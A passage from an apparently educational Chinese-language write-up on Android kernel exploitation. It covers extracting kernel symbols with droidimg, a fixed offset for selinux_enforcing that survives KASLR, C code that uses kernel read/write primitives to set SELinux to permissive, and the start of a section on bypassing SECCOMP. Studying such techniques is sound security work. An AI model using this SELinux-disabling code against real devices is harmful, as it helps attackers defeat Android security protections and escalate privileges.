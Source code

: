  

我们用 https://github.com/nforest/droidimg 这个脚本来解析内核符号表，为此我们需要一个未经压缩的内核。

 

如果是自己下源码并编译安卓内核源码得到的内核不需要去解压，根目录就有 vmlinux(但最终生成 boot.img 镜像时，用的是压缩后的内核 Image.lz4-dtb 而不是未压缩的 vmlinux)。

 

但如果没自己编译，就需要通过下载现成的工厂镜像并解压缩后得到压缩的内核 Image.lz4-dtb，然后通过`lz4 -d Image.lz4-dtb Image`解压出 vmlinux 内核，然后才能用脚本来解析内核符号表。

 

可能会出错

```
Linux version 4.4.177-g83bee1dc48e8 (android-build@abfarm-us-west1-c-0087) (Android (5484270 based on r353983c) clang version 9.0.3 (https://android.googlesource.com/toolchain/clang 745b335211bb9eadfa6aa6301f84715cee4b37c5) (https://android.googlesource.com/toolchain/llvm 60cf23e54e46c807513f7a36d0a7b777920b5881) (based on LLVM 9.0.3svn)) #1 SMP PREEMPT ...
[+]kallsyms_arch = arm64
[!]could be offset table...
[!]lookup_address_table error...
[!]get kallsyms error...

```

此时就需要自己编译下项目根目录下的 fix_kaslr_arm64.c ，然后运行就可以 我的环境是 ubuntu16.04 x64

 

内核中的 ffffff8008080000 t _head 符号表示内核的加载基址。这个值肯定会因为 KASLR 的存在导致每次都不一样，但是幸运的是 ffffff800a44e4a8 B selinux_enforcing 距离他的偏移 0x23ce4a8 是固定的，我们只要得到这个偏移，再结合我们泄漏出来的内核基址就能得到该符号的地址。接下来把它改成 0 就绕过 selinux 啦

```
#define SYMBOL__selinux_enforcing 0x23ce4a8
 
unsigned int enforcing = kernel_read_uint(kernel_base + SYMBOL__selinux_enforcing);
 
printf("SELinux status = %u\n", enforcing);
 
if (enforcing) {
printf("Setting SELinux to permissive\n");
kernel_write_uint(kernel_base + SYMBOL__selinux_enforcing, 0);
} else {
printf("SELinux is already in permissive mode\n");
}

```

绕过 SECCOMP
----------

和 DAC, CAP, 和 MAC 一样，SECCOMP 也是 task_struct 里的，它用 seccomp 结构体表示:

 

struct seccomp {  
int mode;  
struct seccomp_filter *filter;  
};
